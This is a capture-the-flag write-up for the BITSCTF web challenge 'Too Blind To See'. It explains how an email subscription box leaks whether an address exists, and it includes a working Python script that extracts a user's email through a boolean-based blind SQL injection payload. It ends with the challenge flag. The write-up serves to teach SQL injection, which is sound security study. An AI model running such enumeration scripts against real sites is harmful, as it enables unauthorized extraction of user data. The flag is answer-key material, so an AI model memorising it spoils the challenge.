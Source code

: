 ## Too Blind To See
## Category : Web 


## Description
Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

## Link
http://20.244.82.82:7000/

## Solution

![Home page](./images/home.png)


The challenge intended to test the knowledge of the participants of sql injection. The webpage is that of a simple e commerce website. Once you click on the link you can see a login option on the home page 


![Login Panel](./images/admin_panel.png)


You can see that there are two login options, one for the admin and other for regular users. As mentioned in the description that the admins are not aware of the secret hidden behind the password `fluffybutterfly` one can conclude that the flag is not in the admin login (you would get a fake flag if you try sql injection in the admin login ;)). So we now know that the flag is hidden behind the regular user login.Since we have the password we only need to get the email address somehow. 


![Login Panel](./images/exploit.png)


Going back to the home page. You can see that there is a bar in the footer that asks the user to subscribe.This bar asks you your email. When you enter your email you either get a message that the email exists or it does not exist. This is a hint that the email is vulnerable to boolean based sql injection or blind sqli.


![Login Panel](./images/verification.png)


Using the following python script you can get the email address of the user. 
```python 
import requests


url = "http://20.244.82.82:7000/final-destination"


charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@.'


email = ''


while True:
    for char in charset:
       
        payload = f"' OR email LIKE '{email}{char}%'--"
        
       
        data = {
            'email': payload,
            'password': 'fluffybutterfly' 
        }
        
        
        response = requests.post(url, data=data)
        
        
        if "Email exists" in response.text:
            email += char
            print("Discovered email:", email)
            break
    else:
        break

print("Enumeration complete. Discovered email:", email)
```


Once you have the email you just put it in the login page and the password `fluffybutterfly` and you get the flag.


![Login Panel](./images/flag.png)


The aim of this challenge was to make the user aware that even the most uncommon places can be vulnerable to sql injection. With the advent of advanced tools such bugs are easier to spot but one should always be aware of the basics.


## Flag
`BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`


## Author
[@DarthLazius](https://github.com/darthlazius)

